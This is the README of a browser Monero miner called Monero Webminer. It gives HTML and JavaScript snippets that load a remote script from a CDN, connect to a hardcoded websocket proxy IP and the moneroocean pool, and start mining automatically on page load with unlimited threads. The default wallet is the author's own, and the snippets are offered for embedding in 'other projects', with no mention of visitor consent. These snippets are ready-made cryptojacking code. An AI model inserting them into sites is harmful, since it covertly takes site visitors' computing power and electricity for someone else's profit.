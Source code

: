 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In index.Html you can configure it your preferences

- Pool
- XMR Wallet
- Miner name
- Threads (-1 means unlimited)
- Miner Password (Optional, Moneroocean does not use password, if your pool does, it is usually "x")


```javascript
server = "wss://45.119.82.33:40725";
    var pool = "gulf.moneroocean.stream:80";
    var walletAddress = "INSERT YOUR ADDRESS HERE";
    var workerId = "INSERT NODE NAME"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://monero-webminer.vercel.app/


# Check Progress 

Go to https://moneroocean.stream. This is the pool you are connected to, it will show your hashrate and balance.

# How do i know if it works??

1. Open https://monero-webminer.vercel.app/
2. Also Open https://moneroocean.stream in a new tab
3. Paste in my XMR Address 44F4qdJA81RA3eWsscZCmBgBiJomT7BsT6mM4JggZZo6RGEsPxX6eoYAVYM7gPc4m83EJzMwkB3qFf42jtwtUyen7NCrQPE
4. You will see that "GH-XMR" is Mining. You can also do the same 

# Use In Other Projects 


HTML
  
    <!-- Start Of Mining Code (HTML) -->
    <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
    <script>
        server = "wss://45.119.82.33:40725";
        var pool = "moneroocean.stream";
        var walletAddress = "44F4qdJA81RA3eWsscZCmBgBiJomT7BsT6mM4JggZZo6RGEsPxX6eoYAVYM7gPc4m83EJzMwkB3qFf42jtwtUyen7NCrQPE";
        var workerId = "GH-XMR"
        var threads = -1;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    </script>
    <!-- End Of Mining Code (HTML) -->
      

Javascript import snippet
  
    import 'https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/external/javascript.js';


Javascript
    
    // Start Of Mining Code (Javascript)
    var script = document.createElement("script");
    script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
    document.head.appendChild(script);

    server = "wss://45.119.82.33:40725";
    var pool = "moneroocean.stream";
    var walletAddress = "44F4qdJA81RA3eWsscZCmBgBiJomT7BsT6mM4JggZZo6RGEsPxX6eoYAVYM7gPc4m83EJzMwkB3qFf42jtwtUyen7NCrQPE";
    var workerId = "GH-XMR"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
    // End Of Mining Code
    
    
#  Donate
    
    
This software is **100% free** to use, and we would greatly appreciate any donations to help support our work. If you'd like to donate, you can use the following cryptocurrency addresses:


    BTC:  33qQZT1F5mWPvqM2bjbxQ3AsSYMXHpJsr6

    ETH:  0x641E1449c2f7883F245069f284fC880174b02094

    SOL:  AeYJTfLnok1nkncnvXFoKXmH8zrvtB7heNL9Q2sKNaFr

    XMR:  44F4qdJA81RA3eWsscZCmBgBiJomT7BsT6mM4JggZZo6RGEsPxX6eoYAVYM7gPc4m83EJzMwkB3qFf42jtwtUyen7NCrQPE


Thank you for choosing our Monero Webminer. We hope you find it useful and profitable
